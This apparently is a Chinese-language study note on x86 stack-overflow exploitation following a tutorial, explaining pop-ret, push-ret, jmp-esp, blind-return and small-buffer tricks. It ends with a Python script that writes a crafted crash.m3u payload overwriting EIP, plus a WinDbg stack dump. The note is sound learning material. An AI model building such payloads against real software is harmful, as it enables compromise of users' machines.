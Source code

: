 ## pop ret

如果将`pop ret`中的`ret`作为rop的链接者，那么`pop`起到的作用就有两点：

1. 增加esp，降低栈顶，略过栈上无效数据。
2. 如果栈上有后续exploit相关的数据（如指向shellcode的地址），pop该数据至寄存器中，可为其后的gadget所用。

原文中假象场景后，使用`pop pop ret`加上`jmp esp`完成了漏洞利用。

## push return

`push ret`也是另一种劫持eip的方法，要push的数据还是得和我们的利用场景相关，原文中使用的`push esp; ret`和`jmp esp`的效果是一样的。

## jmp [reg]+[offset]

原文中此方法的适用场景是某个寄存器的值位于shellcode（或关键代码）地址附近，需要增加一个偏移再跳转过去，但此类的gadget可能不是太好找。如果该寄存器是esp，增加偏移的操作可由pop或push代替；其他寄存器的话，增加偏移可由add或inc代替。总之，将复杂的gadget拆分替换成小的gadget可能更加容易寻找。

## blind return

原文中场景是覆盖eip后还能控制esp指向的4字节，但这和原来的`ret 4`有些矛盾了。既然是盲跳，感觉直接将eip覆盖为栈地址即可，也可能是我对于ret gadget加栈地址的适用场景理解不深刻。对于场景的理解有时候也是漏洞利用的突破点，这里覆盖eip为栈地址并非如原文所说是无法实现的，后文会逆向利用尝试一下。

## dealing with small buffers

在这里原文还是jump esp后执行汇编代码，不过存放此汇编代码的缓冲区设得比较小，作者就使用`add esp; jump esp`的方法最终跳转至shellcode。此处的shellcode为应用程序将栈上低地址处的padding拷贝至栈上高地址的数据，copy过程中具体的源地址和目标地址的偏移还有待我们逆向考证一番。

先看看栈上高地址处copy padding的偏移是多少：

```python
with open("pattern.txt", "r") as f:
    pattern = f.read().strip()
padding = "A" * (20000+1107)
ret = "\xd8\x2f\xeb\x77" # int 3

payload = pattern + padding +ret

with open("crash.m3u", "w") as f:
    f.write(payload)
```

触发断点后查看栈上数据，偏移居然是0，也就是直接从头copy了一部分的padding，而原文中是因为payload尾部的nop过长，造成了一种截断的假象：

```
eax=00000001 ebx=00104a1c ecx=77f16570 edx=018505c0 esi=6fff2960 edi=000065ff
eip=77eb2fd8 esp=000ffcc4 ebp=00104604 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000202
kernel32!WakeConditionVariable+0x13839:
77eb2fd8 cc              int     3
0:000> d esp-8
000ffcbc  d8 2f eb 77 00 46 10 00-01 00 00 00 00 00 00 00  ./.w.F..........
000ffccc  4c 00 35 00 1c 4a 10 00-00 00 00 00 00 00 00 00  L.5..J..........
000ffcdc  41 61 30 41 61 31 41 61-32 41 61 33 41 61 34 41  Aa0Aa1Aa2Aa3Aa4A
000ffcec  61 35 41 61 36 41 61 37-41 61 38 41 61 39 41 62  a5Aa6Aa7Aa8Aa9Ab
000ffcfc  30 41 62 31 41 62 32 41-62 33 41 62 34 41 62 35  0Ab1Ab2Ab3Ab4Ab5
000ffd0c  41 62 36 41 62 37 41 62-38 41 62 39 41 63 30 41  Ab6Ab7Ab8Ab9Ac0A
000ffd1c  63 31 41 63 32 41 63 33-41 63 34 41 63 35 41 63  c1Ac2Ac3Ac4Ac5Ac
000ffd2c  36 41 63 37 41 63 38 41-63 39 41 64 30 41 64 31  6Ac7Ac8Ac9Ad0Ad1
```
